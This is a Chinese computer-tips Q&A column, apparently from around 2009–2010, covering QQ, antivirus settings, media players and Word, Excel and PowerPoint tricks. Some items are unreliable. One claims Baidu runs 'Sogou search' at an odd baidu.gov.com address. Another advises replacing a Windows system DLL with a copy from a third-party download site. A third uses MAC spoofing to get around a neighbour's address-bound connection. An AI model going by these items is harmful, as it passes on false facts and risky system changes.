其实这些骗子使用的是皇冠和钻石，再加上“消费者保障”和“个人实名认证”的图标，自己制作的旺旺头像。我们要查看卖家真正的信息，只要点击旺旺对话窗口上面的“个人名片”，真实的买家指数、卖家指数就一目了然了。真正的信誉标志，应该显示在“上次登录时间”的下面。

## 在公司不允许安装QQ，我使用的是WebQQ，可是怎么保存聊天记录？

登录WebQQ后，在WebQQ聊天窗口的右下角，有一个“保存”的按钮，单击后会弹出一个对话框，确认之后即可将聊天记录保存下来。默认使用“WebQQ自己的QQ号码-好友的QQ号码-聊天日期”的格式保存。保存的聊天记录是html网页格式，我们可以选择通过邮件发送或是保存在文件中转站中，这样不管在何处都可以看到聊天记录了。

## 最近计划出去旅游，所以比较关注未来一段时间的天气情况，有没有这方面的资讯呢？

如果你的手机号码属中国移动或是中国联通，可取得谷歌提供的天气提醒服务。打开网页http://www.google.com/sms/alerts，选择自己所在城市名称，然后单击右侧“免费订阅”，将打开登录提示。输入自己的手机号码及手机验证码，最后点击“登录”即可完成订阅。
没有手机验证码的朋友，单击“点击此处”链接，再根据提示操作即可获取验证码。注意：谷歌天气短信每次订阅有效期为1个月，到下一个月时需要续订。

## 我怀疑自己的QQ邮箱被别人在外地登录过，可是如何查看邮箱登录的IP地址呢？

只要登录自己的QQ邮箱，然后单击左侧页面“我的信息”后的“自助服务”，在打开的页面中单击“登录查询”，这里可以列出7天至1小时前的历史登录记录。如果发现有异常登录，那最好修改一下自己QQ邮箱的登录密码。

## 由于工作需要，我经常要查阅公司同一产品在百度和Google中的收录情况，可是怎么才能快速进行比较？

可以使用百度的搜狗搜索，登录http://www.baidu.gov.com后输入搜索关键词，然后单击“分屏搜索”，这样百度和Google的搜索结果就会分屏显示在两侧窗口。

## 邻居家无路由采用了绑定网卡地址的方式共享上网，我的台式机可以上网，可是笔记本由于网卡地址不同无法联网，请问有没有快速更改本机网卡地址的方法？

可以到http://bj.onlinedown.net/soft/90841.htm下载“极速MAC修改器”，首先在台式机上运行，记下自己台式机MAC地址。然后在本本上运行软件，填入台式机MAC地址，单击“修改”即可。如果要还原回本机网卡地址，单击“还原”即可。

## 最近总听群友在群里发布不少精彩图片，可是自己无法时时在线，打开离线消息后图片显示为红叉。如何查看群里已发的图片？

对于QQ2009用户，只要打开群聊天窗口的“群聊天记录”，在打开“群聊天记录”页面后，单击页面上方的“最新聊天图片（新）”，这样就可以看到图片了。QQ2008用户只要打开群空间，其他操作同上。

## 一些网站如http://zcg027576.uueasy.com/home.php，需要注册才能查看帖子，怎么才能不注册就浏览这些帖子？

## 在QQ里如何将文字变成横向显示？

答：这个调整一下字体即可。当打开QQ聊天窗口时，单击“字体”按钮，在字体候选下拉框中选择以@开头的字体，就会发现文字变成横向显示了。

## 使用WEB迅雷下载软件，但发现它的目录现在变得很大，怎么回事？

答：WEB迅雷虽然借助于浏览器运行，但还是需要本地支持的，它的种子都存放在安装目录下的“Thunder Network\WebThunder\Profiles\Torrents”文件夹下，如果下载的文件多了，及时清理下就好了。不过还没有下载完的文件也在这，这种不要删。

## 能不能不让暴风盒子每次启动都显示资讯？

答：当然可以，切换到“高级选项”下，在“其他设置→资讯提示”里取消对“开机后弹出暴风资讯”的勾选。

## 在论坛写评论时，发现评论框太小怎么办？

答：如果你使用的是谷歌浏览器，那就好办了，直接将光标定位到文本框的右下角上，你会发现这个角和别的有点不同，虽然没有箭头，现在你往下拖动，文本框就放大了哦！

## 如何解决NOD32安全套装后与飞秋的冲突问题？

答：简单的方法是修改一下设置即可。打开NOD32主窗口，单击“设置→个人防火墙”，然后在右侧的协议过滤模式上，单击“切换到交互过滤模式”，这样你电脑里的通讯是否允许都会由你来决定。如果只有飞秋有这个问题，那么可以不更改过滤模式，把飞秋添加到可信任程序里即可。依次单击“设置→个人防火墙→配置规则和区域”，单击“新建”按钮，切换到“本地”选项下，然后单击“浏览”将飞秋的EXE文件添加进来即可。

## 为何杀毒后电脑没有声音？

答：首先重新安装下声卡的驱动，如果不能解决那就很可能是电脑中的audiosrv.dll文件被破坏了，杀毒并不一定都可以修复被感染的文件，所以我们需要替换一下。到http://work.newhua.com/cfan/200912/shengyin.rar下载正常的audiosrv.dll文件，压缩后复制到C:\WINDOWS\system32目录下，重启电脑就可以了。

## 电脑为什么无法播放3GP格式的视频？

答：视频文件还原成影片是需要解码器的，而每一种格式的电影都对应一种解码器，3GP电影的播放需要播放器能够对这个格式进行解码，这就说明你电脑上打开3GP文件所使用的播放器不支持3GP，或没有安装3GP解码器。这时我们可以升级播放器软件，或者换用完美解码、KMPlayer等包含3GP解码器的播放器。如果是手机上，除了解码器问题，还要考虑码率的支持问题。

## 杀毒软件提示有毒，是不是一定要“删除”该文件啊？

答：杀毒软件的提示，要分开来看。一般在提示上都会有文件的地址，没有的点击相应按钮也能看到详细信息。如果文件目录比较陌生，文件名也不熟悉可点击“删除”（虽然有误杀可能，但可以从隔离区恢复出来，总比中毒要好）。如果是自己熟悉的目录和文件，并确定这个文件是安全的，那可以不采取操作。另外，还要注意杀毒软件对可疑文件的用词，如果发现什么是某病毒或木马，那就说明比较危险，还是删除吧！而如果用词是“可能”，那就要自己分析了。

## 我下载的PDF文件为何无法编辑？

答：我们常见的PDF文件通过来源分两种：原文件编码转换和图片扫描。很多PDF文件其实是一张扫描图，我们是无法编辑的。当然，也有的PDF文件是加密的，就是禁止了内容的修改（如果提示你输入密码就是这样情况）。前者要么放弃编辑或者通过OCR软件识别成可编辑文字，后者需要找到密码。

## 360安全卫士检测出来的“过期补丁”是什么意思？

答：简单来说，“过期补丁”就是我们不需要安装，也不需要管的补丁。微软针对某个问题或漏洞发布一个补丁后，后期因为新的发现或技术进步，可能发布新的补丁程序来替换掉原来的补丁，这时我们直接安装新补丁就可以了，而原来公布的旧补丁也是有编号的，这些都被360安全卫士称为“过期补丁”。

## 我想从视频中提取出音频，哪种软件最方便？

答：使用千千静听就可以，直接用千千静听打开视频文件，然后在播放列表中选择“转换格式”，选择好输出格式和保存路径，单击“立即转换”即可。

## 酷狗音乐盒选择“本地使用”后为何无法播放网络歌曲？

答：酷狗音乐盒提供了两种模式：本地模式和网络模式，选择“本地使用”后软件就默认不使用网络功能了，这时即使再连接上网络也不能使用。这是目前软件一个需要改进的地方吧！我们现在只能关闭软件再重启来切换两种模式。

## 如何查看电脑上安装过的软件？

答：这个有很多方式可以看到，在开始菜单中启动“控制面板→添加/删除程序”，在这里你就可以看到了。另外，像超级兔子这样的工具，在其“升级天使”的“软件管理”里也可以看到电脑中安装的软件。

## 如何用360删除难删除文件？

答：启动360安全卫士后，依次单击“高级→高级工具集”，启动“文件粉碎机”，单击“添加文件”选中需要删除的文件，勾选后单击“粉碎选中文件”就好了。

## 有没有在线转换格式的网站？

答：视频的话可以使用这个网站http://media-convert.com/zh/，支持的格式也不少，几乎涵盖了所有视频格式。如果是图片的话，可以登录http://pic.55.la/，支持PNG、BMP、GIF、JPEG四种格式的转换。

## 什么播放器播放电视时可以自动去黑边？

答：这个功能在QQ影音播放器得到了应用，其他播放器可以调整播放画面的模式来解决，例如4：3或16：9模式。

## 用木马专杀工具杀毒后为什么杀毒软件还是无法启动？

答：专杀工具将木马清除后并不一定可以修复木马所做的修改，这可能是杀毒软件遭到破坏，还是卸载后重新安装杀毒软件吧！

## 优化大师怎么看硬件温度？

答：优化大师没有把温度单独提出一个模块来，不过功能还是有的，启动优化大师后，切换到“系统信息总览”下，在最后一个“传感器”的选项，展开它就可以看到硬件的温度了，一般有CPU、硬盘温度。

## 恢复系统后搜狗输入法总有错误提示？

答：你系统恢复后，搜狗找不到原来的软件文件，所以出现了错误提示。解决的方法呢，如果原来是默认安装的，那么你重新安装一下搜狗就好了，这里保证的就是和恢复的系统里的搜狗安装位置一致。如果位置不知道了，可以采用单独清理的方法，打开注册表，搜索sogou，将与它相关的注册表值都删掉，再将它的自启动文件删除，再搜索sogou将它的文件删除。这样问题就没了。当然这些可以用优化大师的注册表清理来做，不放心的话就用手动。

## 冒险岛和卡巴斯基冲突怎么办？

答：杀毒软件和软件的冲突还是按老方法吧，添加到杀软的信任区域就好了。右键单击卡巴任务栏图标，依次选择“设置→威胁和排除”，可以看到右边栏目就是信任区域，单击“添加”，将冒险岛文件目录添加进去即可。

## 为什么迅雷影音播放影片时没有字幕？

答：首先你要确定你要播放的影片是否有字幕，例如用别的播放器播放一下，看是否有字幕。除了本身集成字幕的影片外，电影文件还会带有一个同名的字幕文件，迅雷影音默认会自动加载，如果文件名不一致可以手动添加，在节目右上角单击“查看→系统配置”窗口，切换到“字幕”一栏下，单击“浏览”选择要加载的字幕就可以了。

## 如何让酷狗连续播放同一首歌？

答：这个你在右键菜单里找不到，需要根据模式来控制，选中播放的歌曲，在下面的模式中勾选“单曲重复”就可以了。

## 如何快速切换到软件的安装路径？

答：在电脑的开始菜单里，找到相应软件，右键单击，选择属性，然后在弹出的对话框中选择“查找目标”，就立即打开此程序的目录了。

## 如何启动千千静听原来的歌词模式？

答：将鼠标浮动在桌面歌词上，单击出现的歌词控制按钮中从右侧数第二个按钮“返回窗口模式”就可以了。要再显示桌面歌词，只需右键单击软件界面，选择“显示桌面歌词”。

## WinRAR右侧的资源列表如何控制其是否显示？

答：打开WinRAR，在菜单栏依次选择“选项→文件夹树”，里面有一项“显示磁盘文件夹”，是否选中这个即可控制右侧资源列表的有无。

## 如何获得只有伴奏的歌曲MTV？

答：这个是用酷我音乐盒就很容易办到，打开视频文件后，点“伴奏”即可。另外，也可以使用Windows Movie Make来制作。

## 如何让电脑敲击键盘像手机一样发音？

答：安装键盘发音（http://www.52z.com/soft/17837.html）软件，然后在“乐器”中选择一个自己喜欢的声音模式就可以让键盘发音了。

## 错点了关机，如何撤销？

答：关机时，系统会检测是否全部窗口都已关闭，我们利用这一点，当误点关机按钮系统正开始关机时，如果有打开的窗口，系统会提示你是否保存，这时我们选择“取消”，这样就不会关机了。如果没有，可以迅速打开一个文件，并几经修改，效果一样。

## 如何去360保险箱监控程序？

答：启动360保险箱后，在列表中选择不需要保护的软件，单击“移除软件”就可以了。

## 如何把两个压缩包合并在一起？

答：如果要合并的压缩包本身是同一个文件产生的分卷压缩包，直接解压其中一个，如果各分卷包都齐全的话，那么就会自动合并在一起了，如果是要把两个没有什么关系的压缩包合在一起，那么只需分别双击两个压缩包，让它们都处在WinRAR窗口下，然后将一个WinRAR窗口中的文件拖到另一个压缩包里就可以了。

## 桌面上的文件如何移动到某个目录下？

答：如果是常用的目录，可以在该目录上右键单击，选择“发送到桌面快捷方式”，以后要往这个目录里复制东西，直接拖动到该快捷方式上就可以了，要移动，按住Shift键再拖动就是了。

## 迅雷也能管理启动项吗？

答：是的，启动迅雷后依次选择“软件宝库→软件助手→软件管理→启动项管理”，然后会启动“迅雷软件助手”，在“软件管理→开机启动软件”中就可以管理启动项了。

## 如何看到电脑目前运行的所有程序？

答：按Ctrl+Alt+Del三个键调出任务管理器，在“应用程序”一栏下就可以看到，当然这个往往显示得不全，切换到“进程”下就可以看到全面的了，如果看不懂进程，你可以启动360安全卫士的“360软件管家”，在高级工具里的“正在运行软件”里就可以看到详细的软件了。

## 安装酷我音乐盒为何无法指定安装目录？

答：一般安装都是可以指定安装目录，如果不能指定，那应该是以前安装过，这次是覆盖安装，所以无法修改安装目录，先把原来的卸载掉再安装就可以了。

## 如何判定软件推荐的主页修改是安全的？

答：判断一个网站是否安全是很复杂的，而且网站也往往处在变化中，当时的安全与否，我们只能通过安全软件来测试，如果你安装了带有防火墙的安全软件，访问该网页时如果有危险安全软件会有提示的。为了防止万一，软件安装中推荐的主页修改，还是不勾选为好。

## 如何快速清理下载的视频文件？

答：使用KMPlayer播放文件夹的视频，碰到不想要的，右键单击，选择“播放列表→删除一个正在播放的文件”，然后在出现的对话框中选择你要的操作，例如可以选“删除并打开下一个文件”，单击“确定”就可以了，或者直接选择“播放列表→立即删除一个正在播放的文件”，不用退出就可以直接删除这个视频。

## 如何让360保险箱每天只检测一次？

答：软件的检测频率是可以设定的，打开360保险箱，切换到“账号保护”一项，单击右上角的“扫描设置”，然后分别在“系统漏洞扫描设置”和“盗号类木马扫描设置”勾选“每天扫描一次”，单击“确定”即可，但QQ之类的登录前的扫描次数是无法控制的。

## 如何处理ESET NOD32的系统更新提示？

答：如果你的系统是可以通过正版验证的版本，那么单击“运行更新”，给系统打上所有补丁即可。如果想取消这个提示，进入软件高级设置，在工具一栏下选中“系统更新”，然后在右侧将模式的“重要更新”改为“无更新”即可，当然，这样做的前提是你自己会及时进行系统更新。

## 如何让酷狗音乐2008一启动就播放音乐？

答：首先你要运行酷狗音乐2008随系统自启动，然后依次选择“选项设置→播放”，勾选右侧的“酷狗启动时自动播放歌曲”，甚至你还可以勾选“继续上次的播放进度”来继续听上次没听完的歌曲部分。

## 如何让Koomail定时收信？

答：依次进入“工具→设置→收信”，然后在“定时收信设置”中设置自己认为合适的时间间隔，最后单击“确定”保存配置。

## 如何禁用音乐播放器的桌面歌词？

答：现在音乐播放器带的桌面歌词都基本一样，控制上步骤也类似，如果暂时不想使用，直接用鼠标移动到上面，在出现功能按钮的时候，单击“关闭”即可暂时关闭桌面歌词显示，需要桌面歌词时，直接单击播放器上的“歌词”，桌面歌词就会又显示了。

## 如何编辑PDF文件？

答：平时我们使用的Adobe Reader只支持PDF的阅读，不能修改，可以使用Adobe Acrobat (http://www.greendown.cn/soft/2205.html) 来修改。

## 如何查看到显卡的独立显存？

答：现在一些软件显示的显存大小是包含内存动态分配的部分的。我们利用EVEREST (下载地址：http://work.newhua.com/cfan/200919/everest.rar) 可以看到显卡的独立显存，启动软件后，依次单击“显示设备→图形处理器”，然后在列表中就可以看到“显存大小”一项了。

## 怎么让暴风影音记住上次播放位置？

答：依次单击“主菜单→收藏→上次退出时播放进度→自动记录”，这样，下次从“播放列表”中播放上次播放的影视文件时，暴风影音就能接着上次进度播放了。

## 如何修改“360软件管家”下载软件更新包的目录？

答：这个目录一般是360safe\SoftMgr\download，修改的话单击360软件管家右上角的箭头，选择“下载设置”，单击“更改目录”，指定路径就可以了。

## 阿里旺旺如何在代理服务器环境下使用？

答：无论是否登录，我们都可以单击右上角的菜单按钮，选择“系统设置→基本设置→网络”，然后勾选“启用代理”，在后面的代理设置中选择“浏览器设置”，这样只要浏览器可以上网，阿里旺旺就可以登录了。

## 安装后如何更改完美解码的主播放器？

答：一般大家安装时选择的都是KMPlayer为主播放器，如果后期想更换，可以在程序组中找到“完美解码设置”，然后在主播放器中选择自己喜欢的即可。

## 如何让电脑实时显示电池电量？

答：安装鲁大师后，它就会在任务栏默认显示电池的电量，如果不是，可以右键单击图标，选择“监测项目→电池状态”就可以了。

## 怎么换搜狗输入法的皮肤？

答：切换到搜狗输入法的语言栏，单击“扳手”样式的按钮，选择“更换皮肤”找到你想要的皮肤即可，如果没有，可在这个菜单中选择“浏览本地皮肤”，找到你下载的皮肤，双击安装即可。

## 如何解决使用Nero刻盘总是失败的问题？

答：首先确定是否是盘片质量问题，然后检查DVD和VCD等设置是否正确，是否超出了盘片容量，最后可以把刻录速度调低一些，往往就可以成功，设置项在Nero Express进行刻录前的最后一步，单击右侧“写入速度”一项进行选择。

## 为何播放器突然只有声音没有图像？

答：可能是播放器的组件发生了故障，或者解码器冲突，最简单的方法就是把原播放器卸载后重新安装。

## 看网络电视产生的缓存文件如何删除？

答：网络电视软件播放流媒体会在本地产生一个缓存文件，这个缓存文件有一定大小设置，超过后是可以自动删除的。例如PPsream安装后会搜索硬盘中剩余空间最大的分区，生成ppsds.pgf文件。

## 如何找出不常使用的软件？

答：安装“迅雷软件助手”，切换到“软件管理”，勾选“筛选出使用频率较低的软件”，下面就列出了你不常用的软件。

## 如何更改酷狗2008桌面歌词的颜色？

答：在软件界面上右键单击，依次选择“选项设置→歌词显示”，如果要更改普通模式下的歌词颜色，单击“歌词显示设置”的歌词颜色更改即可，如果要更改卡拉OK模式下的，需切换到“卡拉OK方式”，更改歌词背景填充，也可在预设方案里选择。

## 如何方便地限制电脑上网时间？

答：安装新版QQ软件管理，单击菜单栏“家长保护”，按提示输入家长密码后会自动进入上网时间限制窗口，分别选择工作日和休息日中可以上网的时间段即可，可以精确到小时，设置完退出单击“开启家长保护”就好了。

## 如何进行闪盘免疫？

答：启动USBcleaner，切换到“工具及插件→U盘病毒免疫”，在下面的列表中选择好磁盘，然后右键单击，选择“免疫该磁盘”即可。

## 如何不让阿里旺旺自动弹出联系人消息？

答：需要进入阿里旺旺的系统设置，单击“个性设置→提醒和声音”，然后勾选“收到联系人消息，只在右下角闪动”即可。

## 如何修复压缩文件？

答：对于普通的损坏的压缩文件，可以用WinRAR来尝试修复，启动WinRAR，在浏览器中找到并选中要修复的压缩文件，然后单击工具栏的“修复”按钮，然后指定修复后的文件的保存位置，单击“确定”，就会生成一个以“rebuilt”为文件名前缀的修复文件。

## 如何删除搜狗输入法的自定义短语？

答：进入“设置属性→高级→自定义短语设置”，用鼠标选中你想删除的项目，然后单击上面的“删除高亮”，保存修改就可以了。

## 如何结束正在运行的隐藏程序？

答：启动360软件管理，切换到“高级工具”下，在“正在运行的软件”列表中找到你想结束的软件，单击“结束任务”就可以了，要注意的是，有些软件涵盖多个进程，这里要注意查看，把它们都结束掉。

## 如何减少瑞星2010的提示项？

答：打开瑞星杀毒软件的主界面，在“首页”左侧，有两个按钮，单击“家庭”模式，软件就会更多地应用自动处理，不会出现过多提示设置了。

## 如何让谷歌金山词霸自动更换皮肤？

答：单击右上角的设置按钮，在下拉菜单中选择“皮肤”，勾选“随机更换皮肤”就可以了，每次启动它就会随机选择一个皮肤的。

## 如何更改酷狗音乐2009下载歌曲的文件目录？

答：打开它的“选项设置”对话框，在“下载”项目中，先不要管里面的目录，单击“添加”，将自己要设置的目录添加进来，然后删除其他不用的目录，单击“确定”完成。

## 如何知道Windows7是否集成了本机所需驱动？

答：安装驱动精灵2009后，在程序组里有一个Windows7驱动升级评估，运行后先选择你要装的系统类别，依次单击“下一步”检测你现在的电脑是否有合适的驱动，以及系统是否集成了该驱动。

## 如何防止恶意软件修改主页？

答：安装金山网盾后，切换到“设置”一项，单击“IE首页保护”，勾选“锁定IE首页”，在下面输入主页地址，单击“锁定”就可以了。

## 为何用360安全卫士禁止软件自启动不管用？

答：这可能是由于360安全卫士偶尔的不稳定引起的，可以先在360软件管家的“开机加速”中将原来禁止启动的软件项目先设置为开机启动，注销系统，然后再重新将这个项目设置为“禁止启动”就可以了。

## 问：如何让金山毒霸和其他杀毒软件共存？

答：在“开始”菜单的金山毒霸程序组中，启动“卸载金山毒霸安全套装”，然后选择第一项，“要装其他杀毒软件，怕冲突”，单击“下一步→启动兼容方案→确定”，然后安装其他杀毒软件就好了。

## 问：安装迷你迅雷后如何用原来的迅雷5下载文件？

答：迷你迅雷会监控浏览器和剪贴板，但没有右键菜单，所以当使用迅雷5下载文件时，通过右键菜单来调用就可以了。

## 问：如何方便管理64位Windows 7系统补丁升级？

答：360安全卫士的漏洞修复功能不支持64位Windows 7，可以使用超级兔子的升级天使或迅雷软件助手来修复漏洞。

## 问：如何用软件测试相机CCD有无坏点？

答：用手遮住相机的镜头，拍摄一张全黑的照片，然后启动光影魔术手，然后依次单击“工具→CCD死点工具→CCD死点测试→打开样片”，打开拍的全黑照片，在中间的列表中就可以看到相机的CCD死点数量了。

## 问：如何快速添加360杀毒的白名单？

答：360杀毒是支持添加目录的，进入“设置选项”，在“白名单设置”中，单击右侧的“添加目录”，然后选择自己确认安全的目录即可，这样对于该目录下的文件360杀毒就不会实时监控了。

## 问：如何在压缩前查看压缩后的文件大小？

答：启动WinRAR，在浏览窗口中找到要压缩的文件，单击“信息→估计”，然后就可以看到文件的压缩率和压缩后的大小。

## 问：酷狗2010版如何隐藏音乐库界面？

答：隐藏音乐库界面的按钮没有放在主面板中，在右上角的第二个按钮，单击它就可以控制音乐库的显示与否。


## 别人传给我一个员工信息XLS表格，里面应该有几百条记录才对，可是我一打开只有3条，请问这是怎么回事？

答：这可能是由于表格已经做过“筛选”导致的。点击“数据→筛选→显示全部”项即可。

## 为什么我在Excel中输入斜杠后总变为日期？

答：这是由于Excel会把输入为1/1、1-1的形式认为是日期输入，你只要把单元格格式设置为“文本”即可（右击单元格，选择“设置单元格格式”，再点击“文本”）。对于输入(1)变为1的情况也可以通过这种方法修改。

## 我有一篇很长的DOC文档，现在需要把每段文字都单独排成一页，请问怎么实现？

答：你可以按Ctrl+H，打开查找替换窗口，然后查找内容为^p，替换为^m（注意大小写）即可。

## 我在办公的时候，经常会接触到很多单位，比如磅、英寸，请问它们是多少呢？

答：估计很多人还不太熟悉Word常用到的单位，它们之间有具体的关系是1英寸=2.54厘米=25.4毫米=72磅=96像素，我们用得最多的72磅字大概就是2.54厘米的大小。下表则列出了字号和磅值及厘米的换算表。

字号和磅值及厘米的换算表
| 字号 | 磅值 | 厘米 |
| :--- | :--- | :--- |
| 初号 | 42 | 1.48 |
| 小初 | 36 | 1.27 |
| 一号 | 26 | 0.92 |
| 小一 | 24 | 0.85 |
| 二号 | 22 | 0.78 |
| 小二 | 18 | 0.64 |
| 三号 | 16 | 0.56 |
| 小三 | 15 | 0.53 |
| 四号 | 14 | 0.49 |
| 小四 | 12 | 0.42 |
| 五号 | 10.5 | 0.37 |
| 小五 | 9 | 0.32 |

## 我在使用Word时，有几个字漏了，需要在中间插入，但后面的字就消除了，请问是怎么回事？

答：这是由于你按了Insert键（部分笔记本标的是Ins），进入了“改写”模式所致，再按一次就能恢复为“插入”模式了。

## 我在PPT中添加了外部的声音，请问是否可以把声音文件直接删除了呢？

答：这要取决于你所用的声音文件大小。默认设置下，如果声音文件小于100KB，在保存PPT文件时，声音文件就会自动嵌入到文件中，这时你就可以删除该文件了。当然这个值是可以进行设置的，在PowerPoint 2007中，点击左上角的Office图标，选择“PowerPoint选项”，在弹出窗口左侧点击“高级”，然后在右侧修改“链接文件大小大于以下值的声音文件”的值即可，最大为50000（50MB）。对于PowerPoint 2003来说该项在“工具→选项→常规”下，注意添加的声音文件必须为WAV才可以。

## 表格的宽度和高度都超过了一页，想在一页中打印，当然可以调整文字的大小以适应页面，但有没有更快速的方法？

答：执行“文件→页面设置”菜单命令，打开“页面设置”对话框，在缩放标签组中选择“调整为”单选按钮，并设置为1页宽和1页高，这样就无需做其他调整了，设置好后直接打印即可。

## 如何快速将Word的域转换为普通文本？

答：如果需要将Word文档中的域转换为普通文本，可以在选中域内容的情况下，同时按Ctrl+Shift+F9组合键，进行转换，这种方法同样适合超级链接的转换。

## 在Excel中如何快速查看函数的功能？

答：在使用Excel进行公式编辑的时候，如果对某个公式的功能作用或者参数不太熟悉，可以选中还有公式的单元格，然后单击工具栏中的“插入函数”按钮或者执行“插入→函数”菜单命令，调出“函数参数”对话框，查看函数的具体功能以及各个参数的具体用法。

## 每年学生的学籍都有所变更，如何在两列数据中找出不同的选项？

答：想要在两列中找出不同的数据我们可以借助IF()函数来实现。假如两列数据分别存储在A、B列，可以在其他列中输入“=IF(A2=B2,"相同","不同")”函数自动判断是否相同，然后将函数拖拽到末尾即可。

## 有时Word文档的页面过宽，浏览时需要不停地拖动滚动条，在不改变文档页面设置的情况下，如何快速查看全部内容？

答：其实，方法很简单，在工具栏中单击选择“显示比例”下拉列表中的“文字宽度”选项即可。如果想要查看某页的内容，选择“整页”选项即可。

## Word文档体积大，如何取消嵌入的字体减小体积？

答：在菜单栏上选择“工具→选项→保存”选项卡，如果确认你的文档中没有嵌入TrueType字体，就取消“嵌入TrueType字体”复选框的选择，如果嵌入了TrueType字体，同时选择“只嵌入所用字符”和“不嵌入常用系统字体”复选框，可以只嵌入文档中使用的字体样式，减少了文档的尺寸。

## 如何使单元格按照字数多少排序？

答：直接实现非常困难，可以借助LEN()函数实现。如果需要排序的数据处于A列，在其他单元格中输入“=LEN(A1)”函数，然后向下拖拽，再按照函数所处的列排序即可。

## 若想去掉Word 2007中附加的段落格式，用什么方法比较简便？

答：可以使用快捷键Ctrl+Q。比如对某段落进行了手动调节，增加了左右缩进，那么增加的缩进值就属于段落附加的样式信息。若想去掉这类信息，将光标置于该段落中，并按Ctrl+Q快捷键即可。如有多个段落需做类似调整，可选定多个段落然后使用快捷键。

## Word中有个相当不错的拼写和语法检查功能，由于Word默认是实时检查，因此编辑文档时会产生许多标示错误语句的红色或绿色的波浪线，挺影响用户工作，有没有办法将此功能关闭，待编辑完成后再进行检查？

答：在Word 2003中，右键单击右状态栏上的“拼写和语法状态”图标，在弹出的菜单中选择“隐藏语法错误”项后，错误标记便会立即消失了。
Word 2007中单击左上角Office按钮，选择“Word选项→校对”，然后清除“键入时检查拼写/键入时检查语法”的复选。

## 在Word中如何快速将阿拉伯数字转换成中文数字或序号？

答：在Word 2003中，先输入阿拉伯数字如12345，全选中，单击“插入→数字→数字类型(壹、贰……)→确定”，即变为大写数字壹万贰仟叁佰肆拾伍等。
Word 2007中则单击“插入→编号”，选择相应项目即可。其他像甲乙、子丑、罗马数字等的转换，也可参照此法。

## 在PPT中插入大量图片，生动美观的同时，体积也臃肿了，携带、发送都很不方便，有什么方法可以让PPT立马苗条呢？

答：点击“文件→另存为”选项，单击“工具”按钮的下拉箭头，选择“压缩图片”选项，在“更改分辨率”栏中，选择“Web/屏幕”，在“选项”栏中选中“保存时自动执行基本压缩”和“删除图片的剪裁区域”项，保存的文件就苗条了！
此方法在Excel、Word中同样适用。不过如果需要对文档进行高清清晰打印等操作，则不要采用此方法。

## 在PPT中页面不断变色的效果是如何做出来的？

答：首先绘一个矩形，绘好后选中矩形，添加需要的文本。然后在此矩形上右击，点击“自定义动画→添加效果→强调→更改字体颜色”，如果没看到此选项，就点击“其他效果”。
在动画设置里的下拉菜单里选择“计时”，计时开始于单击时，速度可以设置短一点，如0.01秒。在触发器里设置单击时启动效果，效果设置里可以设置变换的颜色。

## 为何我将PPTX文件另存为PPT文件后，文件体积增加了很多？

答：PowerPoint 2007增加了多种绚丽的效果、增强的动画，已经成为很多人制作演示的首选，但有时为了保证通用性也会保存为2003版的PPT格式，这里原本可能只有1MB的文件，立刻变为10MB左右，这是什么呢？
其实这是由于在PowerPoint 2007中的很多效果在2003版上都无法实现，所以在另存时会把这些效果变为图片，与文本相比自然就会增加很多。



同时为了保证兼容性增加了一些代码。所以如果你要求兼容性，PPT文档又超过30页，不妨直接使用2003版制作。如果实在需要压缩，可以使用Office文档压缩工具NXPowerLite（下载地址：http://www.onlinedown.net/soft/45451.htm）。

我是单位负责记考勤的员工，单位管理考勤的表格是Excel制作的，每人每天对应一个单元格，每次同事只要正常出勤就画“√”，请问有能够把一片区域都快速画“√”的方法？答：你可以选中所有单元格，然后输入“√”，接着按下Ctrl+回车键，所有的单元格就会自动填充了。

我想知道Word里面的文字显示大小和打印出来的是否完全一样？答：如果你的Word显示比例为100%，那么就是相同的，显示比例可以在Word窗口右下角查看到。

在PowerPoint中我经常使用一些自选图形，每次都需要修改其线条尺寸、填充颜色和线条颜色，如何将自己的设置设定为默认值？答：右键单击添加的自选图形，在弹出的菜单中选择“设置自选图形格式”命令，切换到“线条和颜色”选项卡，做好常用的设置后，勾选对话框左下角的“新对象默认值”复选框，确定即可。（张佳军）

Excel某列中记录了员工的身份证号码，我想从中提取出生日期放到其他列，在不使用函数的情况下有没有比较简单的方法？答：可以借助“分列”来完成，选中身份证号码所在的列后，依次单击“数据→分列”菜单命令，在向导的第1步选择“固定宽度”选项，在第2步中用鼠标分别单击出生日期前后的数据选定范围，在第3步中将中间的出生日期设定为“日期”类型，最后单击“完成”按钮，即可成功将出生日期分离出来。（张佳军）

为什么我的Word标题左右各是个黑点，请问是怎么回事？答：这只是Word起提示作用的标记，打印时是不会出现的，不用管它。

我有一个文档，版式很复杂，请问如何才能让Word统计全部（含文本框）中的文字？答：在Word 2007中，点击“审阅”下的“字数统计”，在弹出的窗口中就会显示出文档的字数了。注意勾选“包括文本框、脚注和尾注”项。

我有两个Excel表格，应该如何判断两个表格是否完全相同呢？又如何找到不同的单元格呢？答：如果是两个表格文件的对比，可以使用工具完成，比如Excel Compare（下载地址：http://www.onlinedown.net/soft/30257.htm）。要是不同的Sheet相比，只需要用函数就可以了，比如Sheet1和Sheet2比较，那么在Sheet3的A1中输入：=IF(Sheet1!A1=Sheet2!A1,"","不同")然后向右下方填充单元格，这样内容不同的单元格就会标有“不同”。

为什么我把Excel中的图片复制到Word中就会变形？答：可以在Word中先插入一个文本框，然后添加文字，接着再粘贴Excel中的图片即可。

我在做试卷，现在需要把Word文档中带下划线的字全部去除，但要保留下划线，如何操作？答：用替换可以完成，点击“编辑→替换”，查找内容中输入^?，点击“高级→格式→字体”，然后选中下划线线型，替换为一个空格，“高级→格式→字体”，设置为下划线线型即可。

我在制作PPT的时候，使用了很多Excel表格数据，我在修改这些数据后，PPT文档的表格数据是否也变化？答：在插入表格的时候，如果你选择了连接到表格，或是直接复制的，那每次PPT打开后，都会提示更新数据的，选择“更新”即可。

我在Excel中输入3-10后，就会变为“3月10日”，怎么才能不让它修改呢？答：只要在输入时先输入单引号就能解决这个问题，比如‘3-10’，或者直接修改该列的格式。

请问“牜”字五笔如何输入？答：“牜”字的五笔编码是KSWW。很容易打的字，之所以无法打出，是由于它是GBK编码中的汉字，一般情况下为了提高录入速度，减少重码几率，五笔输入法通常会设置在GB模式下，所以即便你按照正确方法输入了，同样也无法打出这个字。如果是极点五笔，只要在输入法状态条上点击GB，切换为GBK状态即可输入。

我工作单位所有的文件都是“红头”的，请问我怎么一打开Word就可以使用带“红头”文件的纸张？答：你需要先制作“红头”文件，然后保存为“模板”格式，之后运行Word，点击“视图→任务窗格”，选择“新建文档”下的“模板→本机上的模板”，然后选择一下刚刚保存的“模板”。

